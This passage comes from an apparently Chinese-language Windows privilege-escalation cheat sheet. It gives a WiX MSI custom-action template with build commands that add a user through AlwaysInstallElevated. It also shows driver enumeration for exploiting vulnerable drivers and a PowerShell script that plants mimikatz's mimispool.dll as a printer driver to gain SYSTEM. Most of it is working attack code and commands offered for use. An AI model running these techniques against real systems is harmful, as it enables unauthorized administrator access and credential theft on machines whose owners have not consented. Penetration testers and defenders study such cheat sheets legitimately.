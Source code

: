 ```xml
        <InstallExecuteSequence>
            <Custom Action="Shell" After="InstallFiles"></Custom>
        </InstallExecuteSequence>
    </Product>
</Wix>
```

将该模板打包成 .msi 文件：

```bash
candle zhi.wxs
light zhi.wixobj
```

此时已经生成了zhi.msi文件，运行该文件即可创建用户名为zhi

- [AlwaysInstallElevated提权](http://uuzdaisuki.com/2021/06/09/AlwaysInstallElevated%E6%8F%90%E6%9D%83/#AlwaysInstallElevated%E6%8F%90%E6%9D%83)
- [本地侦擦与提权 - JFSec - 博客园](https://www.cnblogs.com/JFSec/articles/17322189.html)

## 利用存在漏洞的驱动提权
条件：
- 漏洞
- 存在漏洞的驱动

查看驱动：
```powershell
PS C:\Users\Swissky> driverquery.exe /fo table /si
Module Name  Display Name           Driver Type   Link Date
============ ====================== ============= ======================
1394ohci     1394 OHCI Compliant Ho Kernel        12/10/2006 4:44:38 PM
3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
ACPI         Microsoft ACPI Driver  Kernel        12/9/1975 6:17:08 AM
AcpiDev      ACPI Devices driver    Kernel        12/7/1993 6:22:19 AM
acpiex       Microsoft ACPIEx Drive Kernel        3/1/2087 8:53:50 AM
acpipagr     ACPI Processor Aggrega Kernel        1/24/2081 8:36:36 AM
AcpiPmi      ACPI Power Meter Drive Kernel        11/19/2006 9:20:15 PM
acpitime     ACPI Wake Alarm Driver Kernel        2/9/1974 7:10:30 AM
ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
<SNIP>
```
对比存在漏洞的驱动：
- [LOLDrivers](https://www.loldrivers.io/)

## 利用打印机提权
### 将 mimikatz 添加为虚拟打印机
Create a Printer

```powershell
$printerName     = 'Universal Priv Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName
 
Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')
 
Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared
 
```